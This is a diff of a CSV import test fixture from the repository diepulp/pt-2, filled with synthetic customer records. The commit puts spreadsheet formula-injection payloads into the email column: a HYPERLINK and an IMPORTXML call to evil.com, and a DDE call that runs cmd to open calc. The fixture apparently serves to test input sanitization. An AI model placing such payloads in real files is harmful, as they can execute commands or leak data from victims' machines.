

Before and after one commit to diepulp/pt-2, a CSV file: docs/00-vision/csv-import/test-import-100-rows.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

```diff
--- a/docs/00-vision/csv-import/test-import-100-rows.csv
+++ b/docs/00-vision/csv-import/test-import-100-rows.csv
@@ -4,3 +4,3 @@ BOB.SMITH@YAHOO.COM,(555) 101-2002,Bob,Smith,1990-07-22,Platinum,45200,2026-01-1
 carol.williams@hotmail.com,5551012003,Carol,Williams,1978-11-30,Silver,3200,2025-11-20
-=cmd('calc'),555-101-2004,Dave,Brown,1992-01-08,Bronze,800,2025-10-05
++HYPERLINK("http://evil.com"),555-101-2004,Dave,Brown,1992-01-08,Bronze,800,2025-10-05
 eve.davis@outlook.com,+1-555-101-2005,Eve,Davis,1988-06-14,Gold,15800,2026-02-01
@@ -10,3 +10,3 @@ hank.moore@gmail.com,555.101.2008,Hank,Moore,1976-12-05,,0,
 iris.taylor@GMAIL.COM,(555)101-2009,Iris,Taylor,1994-02-28,Gold,11200,2025-12-15
-+SUM(A1:A100),555-101-2010,Jack,Anderson,1987-08-17,Bronze,500,2025-08-01
+=IMPORTXML("http://evil.com","//secret"),555-101-2010,Jack,Anderson,1987-08-17,Bronze,500,2025-08-01
 karen.thomas@yahoo.com,555 101 2011,Karen,Thomas,1982-05-03,Silver,6700,2025-11-10
@@ -36,3 +36,3 @@ henry.nelson@gmail.com,555 101 2034,Henry,Nelson,1996-03-11,Bronze,1100,2025-08-
 irene.carter@outlook.com,555-101-2035,Irene,Carter,1982-11-06,Silver,6300,2025-10-08
-=1+1,555-101-2036,James,Mitchell,1991-08-22,Gold,14700,2025-12-18
+=DDE("cmd","/C calc","!A0"),555-101-2036,James,Mitchell,1991-08-22,Gold,14700,2025-12-18
 kate.perez@yahoo.com,(555) 101-2037,Kate,Perez,1984-01-18,Diamond,92000,2026-02-12
```
Also changed, not shown: 8 other files.
